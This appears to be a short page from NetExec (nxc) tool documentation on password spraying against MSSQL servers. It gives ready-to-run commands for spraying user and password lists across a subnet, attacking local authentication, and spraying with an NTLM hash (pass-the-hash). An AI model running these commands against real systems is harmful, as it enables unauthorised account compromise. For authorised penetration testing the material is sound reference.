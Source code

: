 # Password Spraying (without bruteforce)

    #~ nxc mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

By default nxc will exit after a successful login is found. Using the --continue-on-success flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

### Attack local authentication

        nxc mssql 192.168.31.126 -u users.txt -p pass.txt --continue-on-success --local-auth

### Password Spray with NTLM Hash

        nxc mssql 192.168.31.126 -u users.txt -H 64FBAE31CC352FC26AF97CBDEF151E03 --continue-on-success
